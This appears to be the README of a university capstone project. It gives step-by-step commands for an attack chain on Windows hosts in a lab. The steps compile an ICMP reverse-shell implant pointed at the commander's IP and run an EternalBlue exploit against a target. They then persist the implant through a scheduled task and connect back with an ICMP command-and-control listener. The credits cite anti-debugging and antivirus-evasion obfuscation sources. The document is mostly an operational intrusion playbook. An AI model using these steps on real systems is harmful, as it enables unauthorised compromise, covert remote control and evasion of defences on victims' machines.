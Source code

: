 # CS564 - Capstone Project

---

## Requirement

-   Linux host (we used the provided VM of Ubuntu)
-   Python 2.7
    -   [Installer (python.org)](https://www.python.org/downloads/release/python-2718/)
    -   [Pip installer](https://bootstrap.pypa.io/pip/2.7/get-pip.py)
    -   `impacket`: Run `python2 -m pip install impacket`
-   Python 3
-   Visual C++ 2008 compiler.
    -   [Installer (archive.org)](https://web.archive.org/web/20210106040224/https://download.microsoft.com/download/7/9/6/796EF2E4-801B-4FC4-AB28-B59FBF6D907B/VCForPython27.msi)

## Generating payload

We prepare a C2 package that communicates through ICMP protocol.

### Remote shell

To compile remote shell,
open Visual C++ 2008 32/64-bit Command Prompt, and type the
following. Remember to change `MY_IP` to the IP of commander.

```
cl.exe icmpsh-s.patch.c /D"MY_IP=\"192.168.191.128\""
```

### Python code

Pack it into EXE

## Infiltrate

Inside folder, `eBlue.py` is the exploit. Run

```
python2 eBlue.py 169.254.16.129
```

After running, the C2 package should now be stored inside the target system.
Additionally, a scheduled task is made to execute C2 in the future.

## Exfil

Due to the protocol limitation, we need to connect using Linux system and
run the following command to disable automatic ICMP reply.

```
sysctl -w net.ipv4.icmp_echo_ignore_all=1 >/dev/null
```

When the schedule task run, in order to connect,
execute on our host:

```
python3 icmpsh_m3.py 169.254.16.130 169.254.16.129
```


## Credits

-   `icmpsh-s.patch.c` and `icmpsh-m3.py` is based on [bdamele:icmpsh](https://github.com/bdamele/icmpsh)
-   `eBlue.py` from [Exploit-DB](https://www.exploit-db.com/exploits/42315)
-   Anti-debug techniques from [Anti-Debug Tricks](https://anti-debug.checkpoint.com/)
-   C obfuscation from [scrt:avcleaner](https://github.com/scrt/avcleaner)
